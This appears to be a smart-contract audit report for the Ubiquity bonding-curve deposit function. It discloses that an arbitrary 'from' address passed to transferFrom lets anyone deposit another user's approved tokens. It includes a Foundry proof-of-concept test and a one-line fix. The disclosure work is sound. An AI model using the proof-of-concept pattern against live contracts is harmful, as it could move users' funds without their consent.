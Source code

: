 Passive Sapphire Panther

high

# Anyone can deposit to protocol tokens of other users without approve

## Summary

**OUT OF SCOPE, Just for team information**

Passing an arbitrary `from` address to transferFrom can lead to loss of funds, because anyone can transfer tokens from the `from` address if an approval for protocol is made.

## Vulnerability Detail

- `User_1` approve token transfer for `Protocol`
- `User_2` can deposit `User_1` token instead of `User_1` without any approval since the protocol is allowed to transfer tokens.

## Impact

Users tokens can be deposited to protocol without their desire

## Code Snippet

`BondingCurveFacet::deposit`  call `LibBondingCurve::deposit`

Code of `BondingCurveFacet::deposit` 
https://github.com/sherlock-audit/2023-12-ubiquity/blob/main/ubiquity-dollar/packages/contracts/src/dollar/facets/BondingCurveFacet.sol#L56-L61


Code of `LibBondingCurve::deposit` 
https://github.com/sherlock-audit/2023-12-ubiquity/blob/main/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibBondingCurve.sol#L133

## Tool used

[Cyfrin/aderyn](https://github.com/Cyfrin/aderyn)

## Proof of Concept
Put this in `BondingCurveFacet.t.sol::ZeroStateBonding`
```javascript
    function testPOC_DepositOthersTokens(uint32 connectorWeight, uint256 baseY) public {
        uint256 collateralDeposited;
        uint256 connWeight;
        connectorWeight = uint32(bound(connWeight, 1, 1000000));
        baseY = bound(baseY, 1, 1000000);
        vm.prank(admin);
        bondingCurveFacet.setParams(connectorWeight, baseY);

        address firstAccount = address(0x1111);

        vm.startPrank(firstAccount); // prank as Account 1
        assertEq(dollarToken.allowance(secondAccount, firstAccount), 0); // Account 1 does not have allowance from Account 2

        vm.expectEmit(true, false, false, true);
        emit Deposit(secondAccount, collateralDeposited);
        bondingCurveFacet.deposit(collateralDeposited, secondAccount); // Account 1 deposit tokens of Account 2
    }
```

## Recommendation

Change `_recipient` to `msg.sender` in `LibBondingCurve::deposit`
```diff
- dollar.transferFrom(_recipient, address(this), _collateralDeposited);
+ dollar.transferFrom(msg.sender, address(this), _collateralDeposited);
```